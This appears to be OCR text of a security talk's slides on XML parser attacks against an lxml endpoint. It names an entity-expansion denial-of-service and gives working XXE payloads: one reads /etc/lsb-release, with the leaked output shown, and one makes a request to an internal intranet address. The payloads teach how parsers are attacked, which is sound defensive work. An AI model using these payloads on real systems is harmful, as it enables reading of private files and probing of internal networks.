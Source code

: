 RESPONSE 

``` 
... the smoking ruin of your former laptop ...
``` 

Note: 
Actually, this is only the 168 million laughs attack

Funny story, my laptop exploded before I could even post this to my test server, because the text editor I was using tried to parse it.

---

### ... what else can we do ...  

---

### External entities 

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY lsb_release SYSTEM "file:///etc/lsb-release">]>
<foo> 
&lsb_release; 
</foo> 
``` 

RESPONSE 

<pre><code> 
DISTRIB_ID&equals;Ubuntu  
DISTRIB_RELEASE&equals;12.04 
DISTRIB_CODENAME&equals;precise 
DISTRIB_DESCRIPTION&equals;"Ubuntu 12.04.3 LTS"</code></pre>
Note: 

ANY file the parser can read is fair game.

I'll bet the parser can read the apps configuration files.

Of course it can read its own source code.

---

### External entities 

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY a_file_on_the_local_intranet
SYSTEM "http://192.168.76.82/hello">]>
<foo> 
&a_file_on_the_local_intranet; 
</foo> 
``` 
